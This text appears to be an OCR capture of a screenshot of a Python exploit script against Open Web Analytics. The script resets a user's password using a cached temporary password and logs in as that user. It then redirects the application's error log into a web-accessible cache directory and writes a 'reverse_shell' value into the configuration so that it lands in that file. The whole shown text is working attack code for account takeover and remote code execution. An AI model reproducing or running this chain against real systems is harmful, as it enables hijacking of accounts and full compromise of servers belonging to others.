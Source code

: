 ```python

try:
   data = {
      "owa_password": new_password, 
      "owa_password2": new_password, 
      "owa_k": cache_temppass, 
      "owa_action": 
      "base.usersChangePassword"
   }
   session.post(password_reset_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when changing the user password!', "ERROR")
   print(e)
   exit()
else:
   print_message('Changed the password of "{username}" to "{password}"'.format(username=username,password=new_password), "INFO")

try:
   data = {
      "owa_user_id": username, 
      "owa_password": new_password, 
      "owa_action": "base.login"
   }
   session.post(login_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred during the login attempt!', "ERROR")
   print(e)
   exit()
else:
   print_message('Logged in as "{username}" user'.format(username=username), "SUCCESS")

nonce = get_update_nonce(update_config_url)

try:
   log_location = "/var/www/html/owa/owa-data/caches/" + shell_filename
   data = {
      "owa_nonce": nonce, 
      "owa_action": "base.optionsUpdate", 
      "owa_config[base.error_log_file]": log_location, 
      "owa_config[base.error_log_level]": 2
   }
   session.post(update_config_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when attempting to update config!', "ERROR")
   print(e)
   exit()
else:
   print_message('Creating log file', "INFO")

nonce = get_update_nonce(update_config_url)

try:
   data = {
      "owa_nonce": nonce, 
      "owa_action": "base.optionsUpdate", 
      "owa_config[shell]": reverse_shell 
   }
   session.post(update_config_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when attempting to update config!', "ERROR")
   print(e)
   exit()
```